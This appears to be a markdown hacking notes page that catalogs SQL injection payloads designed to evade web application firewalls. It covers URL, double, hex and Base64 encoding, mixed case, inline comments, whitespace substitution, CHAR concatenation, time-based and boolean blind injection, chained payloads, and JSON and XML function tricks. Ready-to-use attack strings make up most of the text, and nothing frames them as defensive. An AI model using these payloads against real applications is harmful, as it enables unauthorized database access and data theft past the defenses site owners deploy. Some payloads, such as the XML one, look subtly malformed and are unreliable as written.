 ```yaml
---
title: "WAF Bypass Techniques for SQL Injection"
tags: ['Hacking', 'SQL Injection', 'WAF']
date: 2024-10-03
toc: true
unlisted: true
---
```


## WAF Bypass Techniques for SQL Injection

Below are various methods to bypass WAFs and execute SQL injection attacks. Each technique takes advantage of different obfuscation, encoding, and manipulation strategies to evade detection.

### 1. Using Encoding and Obfuscation

#### URL Encoding

```  
%27%20UNION%20SELECT%20NULL,NULL,NULL--  
```

Encode parts of the payload to bypass basic keyword detection mechanisms used by WAFs.

#### Double URL Encoding

```  
%2527%2520UNION%2520SELECT%2520NULL,NULL,NULL--  
```

Double encode the payload to evade more sophisticated detection mechanisms.

#### Hex Encoding

```  
' UNION SELECT 0x61646D696E, 0x70617373776F7264 --  
```

Use hexadecimal encoding for the payload to obscure the SQL commands.

### 2. Case Manipulation and Comments

#### Mixed Case

```  
' uNioN SeLecT NULL, NULL --  
```

Change the case of SQL keywords to avoid case-sensitive filters.

#### Inline Comments

```  
' UNION/**/SELECT/**/NULL,NULL --  
```

Insert comments within SQL keywords to break up recognizable patterns.

### 3. Whitespace and Special Characters

#### Using Different Whitespace Characters

```  
' UNION%0D%0ASELECT%0D%0A NULL,NULL --  
```

Replace spaces with other whitespace characters like tabs or newlines to confuse simple string-matching filters.

#### Concatenation with Special Characters

```  
' UNION SELECT CHAR(117)||CHAR(115)||CHAR(101)||CHAR(114), CHAR(112)||CHAR(97)||CHAR(115)||CHAR(115) --  
```

Use special characters and concatenation functions to dynamically build the payload.

### 4. SQL Function and Command Obfuscation

#### String Concatenation

```  
' UNION SELECT 'ad'||'min', 'pa'||'ss' --  
```

Break strings into smaller parts and concatenate them to obscure the payload.

#### Using SQL Functions

```  
' UNION SELECT VERSION(), DATABASE() --  
```

Leverage SQL functions to manipulate and obfuscate the payload.

### 5. Time-Based and Boolean-Based Payloads

#### Time-Based Blind SQL Injection

```  
' AND IF(1=1, SLEEP(5), 0) --  
```

Use time delays to infer information based on the response time.

#### Boolean-Based Blind SQL Injection

```  
' AND IF(1=1, 'A', 'B')='A' --  
```

Use conditional statements to alter the response based on true or false conditions.

### 6. Advanced Encoding Techniques

#### Base64 Encoding

```  
' UNION SELECT FROM_BASE64('c2VsZWN0IHZlcnNpb24oKQ==') --  
```

Encode payloads using Base64 to bypass content filters.

#### Custom Encoding Scripts

Develop custom scripts to encode and decode payloads in different formats to evade detection.

### 7. Chaining Techniques

#### Combining Multiple Bypass Techniques

```  
%27%20UNION/**/SELECT/**/CHAR(117)%7C%7CCHAR(115)%7C%7CCHAR(101)%7C%7CCHAR(114),%20CHAR(112)%7C%7CCHAR(97)%7C%7CCHAR(115)%7C%7CCHAR(115)%20--%0A  
```

Combine various techniques to create more complex and harder-to-detect payloads.

### 8. Leveraging Lesser-Known SQL Features

#### Using JSON Functions

```  
' UNION SELECT json_extract(column_name, '$.key') FROM table_name --  
```

Leverage JSON functions to manipulate and extract data in a more complex manner.

#### Using XML Functions

```  
' UNION SELECT extractvalue(1, 'version()') --  
```

Utilize XML functions to construct more sophisticated payloads.